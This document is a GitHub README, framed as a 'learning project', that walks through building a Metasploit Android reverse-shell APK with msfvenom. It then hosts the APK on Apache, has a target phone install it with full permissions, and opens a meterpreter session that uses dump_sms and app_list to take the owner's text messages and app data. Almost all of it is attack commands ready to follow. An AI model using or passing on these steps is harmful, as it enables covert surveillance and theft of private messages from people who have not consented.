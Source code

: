 # Access-Phone-s-SMS-Remotely
Remote SMS Learning Project  Learn SMS management via Android APK payloads.  Features: Education, Payloads, Security, User-friendly, Customization, Device Compatibility.
## Table of Content
1. [Generate APK File](#generate-apk-file)
2. [Accessibility](#accessibility)
3. [Check Server](#check-server)
4. [Installation](#installation)
5. [Permissions](#permissions)
6. [Accessing Device](#accessing-device)




## Generate APK File
`sudo msfvenom -p android/meterpreter/reverse_tcp lhost=192.168.0.0 lport=4444 R > ./hacker.apk`
`sudo`: This is a command used in Unix-like operating systems to execute commands with superuser privileges. It allows the user to perform administrative tasks.
`msfvenom`: This is a Metasploit Framework payload generator. It's used to create payloads for exploiting vulnerabilities in systems.
`-p android/meterpreter/reverse_tcp`: This part specifies the payload to generate. In this case, it's creating a payload for Android devices that will connect back to the attacker's machine using the Meterpreter payload over a reverse TCP connection.
`lhost=192.168.0.0`: This option specifies the IP address of the attacker's machine (the listening host) to which the payload will connect back.
`lport=4444`: This option specifies the port on the attacker's machine where the payload will connect back.
`R > ./hacker.apk`: This part redirects the output of msfvenom to a file named hacker.apk. The -R flag is used to specify the output format, which in this case is an APK file for Android.

## Accessibility

Making the file to be easily accessible by other machine/system/device.
`sudo mv ./hacker.apk /var/www/html/`

## Check Server

Check whether your apache server is running or not.
`systemctl status apache2`
If the status is active (running), then okay. If not, use this command below to activate your apache2 server.
`sudo systemctl start apache2`
Optionally, you can also enable Apache2 to start automatically on boot by running:
`sudo systemctl enable apache2`
To verify that Apache2 is running, you can use:
`sudo systemctl status apache2`
So, we have our web application server running.

## Installation

Open your favourate browser on the targeted device and type the ip address followed by forward slash hacker.apk. For example if the ip addr is 192.168.0.0:
➡ 192.168.0.0/hacker.apk

## Permissions

After this, allow the permission to install the apk in the device. Enable all the permissions if needed from the settings>apps>app_name

## Accessing Device

Open Metasploit Framework in your Linux terminal. Type the command in your linux terminal to start Metasploit Framework.
`msfconsole`
Type this command to use the specific exploit:
`use exploit/multi/handler`
Set payload using this command:
`set payload android/meterpreter/reverse_tcp`
See Options:
`show options`
Set LHOST by the ip addr of the listener machine i.e. in our case, Kali Linux:
`set LHOST 192.168.0.0` ➡ Replace 192.168.0.0 with your machine ip addr.
After this, run it by using one of these commands:
`exploit` or `run`
As soon as yopu open the installed apk in the targeted device, it will create a meterpreter session in your terminal.
Type `help` to see all the available options and commands that you can pass.
`app_list` This will show us all the applications data already installed inside the device.
Type command: `dump_sms` and hit enter.
Then immediately you will see we have a file created on our desktop. Open it and ypu can see all of the text messages.


There's a lot more commands that we can do as part of this android hacking. Stay tuned for more valueable information to be shared with you :)
